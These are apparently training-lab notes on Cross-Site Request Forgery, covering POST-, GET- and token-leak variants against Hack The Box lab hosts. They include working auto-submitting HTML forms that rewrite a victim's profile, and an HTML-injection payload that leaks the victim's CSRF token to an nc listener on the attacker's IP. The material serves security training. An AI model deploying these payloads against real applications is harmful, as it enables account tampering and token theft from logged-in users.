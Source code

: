 # Cross-Site Request Forgery (CSRF or XSRF)
An attack that forces an end-user to execute inadvertent actions on a web application in which they are currently authenticated.

A web application is vulnerable to CSRF attacks when:
- All the parameters required for the targeted request can be determined or guessed by the attacker
- The application's session management is solely based on HTTP cookies, which are automatically included in browser requests

To successfully exploit a CSRF vulnerability, we need:
- To craft a malicious web page that will issue a valid (cross-site) request impersonating the victim
- The victim to be logged into the application at the time when the malicious cross-site request is issued
## Cross-Site Request Forgery Example
If we login to an account and run Burp, then capture the request sent when we try to update our profile, we may notice no anti-CSRF token in the update-profile request.
![Burp Suite showing a POST request to update profile with email, telephone, and country parameters.](https://academy.hackthebox.com/storage/modules/153/28.png)

Let's try executing a CSRF attack against our account (Ela Stienen) that will change her profile details by simply visiting another website (while logged in to the target application).

First, create and serve the below HTML page. Save it as `notmalicious.html`
```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

If you are wondering how we ended up with the above form, please see the image below. ![HTML form with hidden inputs for email, telephone, and country, and a script to auto-submit.](https://academy.hackthebox.com/storage/modules/153/29.png)
We can serve the page above from our attacking machine as follows:
```bash
python -m http.server 1337
```

While still logged in as a user, open a new tab and visit the page you are serving from your attacking machine `http://IP-ADDRESS:1337/notmalicious.html`. 

You will notice that the users profile details will change to the ones we specified in the HTML page we are serving.

Our assumption that there is no CSRF protection in the application was correct. We were able to change the users profile details via a cross-site request.
- We can now use the malicious web page we crafted to execute CSRF attacks against other users.
# Cross-Site Request Forgery (GET-based)
Similar to how we can extract session cookies from applications that do not utilize SSL encryption, we can do the same regarding CSRF tokens included in unencrypted requests.
## Examples
Capture another account update request with Burp, this time it will have a CSRF token in the `GET` request:

![Burp Suite showing a GET request to save user data with parameters for telephone, country, CSRF token, and email.](https://academy.hackthebox.com/storage/modules/153/31.png)

Let us simulate an attacker on the local network that sniffed the abovementioned request and wants to deface the users profile through a CSRF attack.

First, create and serve the below HTML page. Save it as `notmalicious_get.html`
```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```
- Notice that the CSRF token's value above is the same as the CSRF token's value in the captured/"sniffed" request.

You can serve the page above from your attacking machine as follows:
```bash
python -m http.server 1337
```

While still logged in as the user, open a new tab and visit the page you are serving from your attacking machine `http://IP-ADDRESS:1337/notmalicious_get.html`. 
- You will notice that the users profile details will change to the ones we specified in the HTML page we are serving.
# Cross-Site Request Forgery (POST-based)
CSRF tokens will reside in POST data. Let us attack such an application and try to find a way to leak the CSRF token so that we can mount a CSRF attack.
## Example
After authenticating as a user, you'll notice that you can delete your account. Let us see how one could steal the user's CSRF-Token by exploiting an HTML Injection/XSS Vulnerability.

If we click on the "Delete" button, we will get redirected to `/app/delete/<your-email>`
![Confirmation prompt to delete account with email julie.rogers@example.com.](https://academy.hackthebox.com/storage/modules/153/36.png)

Notice that the email is reflected on the page. Let us try inputting some HTML into the _email_ value, such as:
```html
<h1>h1<u>underline<%2fu><%2fh1>
```
![Confirmation prompt to delete account with email h1underline.](https://academy.hackthebox.com/storage/modules/153/37.png)

If you inspect the source (`Ctrl+U`), you will notice that our injection happens before a `single quote`. We can abuse this to leak the CSRF-Token.
![HTML source code showing an underlined heading and hidden CSRF input.](https://academy.hackthebox.com/storage/modules/153/39.png)

Let us first instruct Netcat to listen on port 8000, as follows:
```bash
nc -nlvp 8000
```

Now we can get the CSRF token via sending the below payload to our victim:
```html
<table%20background='%2f%2fIP-ADDRESS:PORT%2f
```

If we open a new tab as the user and visit `http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f`, we will notice a connection being made on our `nc` listener that leaks the CSRF token.
> Note: This attack does not require the attacker to reside in the local network. HTML Injection is used to leak the victim's CSRF token remotely!

# NOTES!
If a web application was utilizing SSL encryption, an attacker would still be able to alter a uesrs profile through CSRF (GET-based).

If a web application was utilizing secure cookies, an attacker would still be able to leak the CSRF token (POST-based).